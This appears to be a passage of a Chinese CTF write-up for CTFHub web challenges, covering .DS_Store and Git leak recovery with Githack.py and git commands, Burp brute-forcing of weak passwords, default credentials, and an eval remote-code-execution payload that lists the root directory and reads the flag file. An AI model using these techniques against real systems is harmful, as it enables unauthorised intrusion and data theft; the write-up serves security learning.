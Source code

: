 ![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-10.png)
##### .DS_Store
`.DS_Store` 是 Mac OS 保存文件夹的自定义属性的隐藏文件,通过.DS_Store可以知道这个目录里面所有文件的清单
下载`.DS_Store`文件,用kali打开
![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-11.png)
访问/15ff15a92fd06e48f96c54b7d7d22ae1.txt目录,获得flag
#### Git泄露
##### Log
Githack.py要在python2下运行</br>
先下载泄露的git文件
>python2 Githack.py http://challenge-358cafc79eea833b.sandbox.ctfhub.com:10800/.git/

![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-12.png)

然后先

>git log

再

>git diff xxxxxxxxxxx

逐一尝试
![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-14.png)
##### Stash
>git stash list

![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-16.png)

>git stash show -p stash@{0}

![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-15.png)
##### Index
cd到下载目录下发现文件直接cat
![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-17.png)
#### SVN泄露
[参考wp](https://blog.csdn.net/m0_51191308/article/details/127293812)


### 密码口令
#### 弱口令
抓包用bp进行爆破
![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-18.png)
#### 默认口令
百度搜索`北京亿中邮默认口令`就能拿到账号密码
### RCE
#### eval执行
无任何waf,直接传参
![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-19.png)
得知flag文件的名字`flag_9750`
![alt text](https://gitee.com/SSSSSHONE/ss/raw/master/image-20.png)
```
payload:
http://challenge-7ba8f901ca14eedb.sandbox.ctfhub.com:10800/?cmd=system(%22ls%20/%22);
http://challenge-7ba8f901ca14eedb.sandbox.ctfhub.com:10800/?cmd=system(%22cat%20/flag_9750%22);
```
#### 文件包含
虽然sell是txt文档,但当它被包含进php文件就会被当作php执行  